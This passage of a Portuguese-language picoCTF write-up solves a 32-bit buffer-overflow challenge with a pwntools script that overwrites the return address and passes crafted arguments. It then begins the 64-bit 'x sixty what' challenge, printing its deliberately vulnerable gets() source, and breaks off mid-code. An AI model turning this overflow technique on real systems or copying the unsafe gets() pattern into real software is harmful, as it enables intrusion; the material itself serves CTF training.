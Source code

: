 Perceba como `DWORD PTR [ebp+0x8]` contém `0xf00df00d` ao invés de `0xcafef00d`. Podemos resolver isso de forma simples ao adicionar 4 bytes extras logo antes do primeiro argumento para que tudo fique alinhado.

Até o momento nós temos: 112 bytes + return address + 4 bytes de padding + primeiro argumento da função + segundo argumento da função

Resolvi desse jeito aqui:

```python
from pwn import *

context(arch = "i386", os="linux", endian="little")

p = remote("saturn.picoctf.net", 58084)

payload = b'A' * 112
payload += p32(0x08049296)
payload += p32(0)
payload += p32(0xcafef00d)
payload += p32(0xf00df00d)

p.sendline(payload)
p.interactive()
```

## x sixty what

Esse challenge é similar aos anteriores. A principal diferença é que agora nós temos um arquivo de 64 bits. Aqui está o source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
```
